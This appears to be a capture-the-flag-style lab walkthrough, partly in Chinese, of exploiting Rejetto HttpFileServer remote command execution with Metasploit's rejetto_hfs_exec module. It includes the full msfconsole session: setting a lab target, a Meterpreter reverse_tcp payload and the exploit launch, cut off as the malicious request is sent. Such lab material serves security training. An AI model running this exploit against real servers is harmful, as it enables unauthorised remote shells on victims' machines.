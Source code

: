```
http://10.0.28.179/
```

[Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

Rejetto HttpFileServer 远程命令执行

由于文件 ParserLib.pas 中的正则表达式不佳，Rejetto HttpFileServer (HFS) 容易受到远程命令执行攻击。此模块通过使用“%00”绕过过滤来利用 HFS 脚本命令。此模块已在 Windows XP SP3、Windows 7 SP1 和 Windows 8 上的 HFS 2.3b 上成功测试。

```
root@attackdefense:~# service postgresql start && msfconsole
msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.21.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > setg RHOSTS 10.0.28.179
RHOSTS => 10.0.28.179
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] Using URL: http://0.0.0.0:8080/6ZFwgw
[*] Local IP: http://10.10.21.2:8080/6ZFwgw
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
```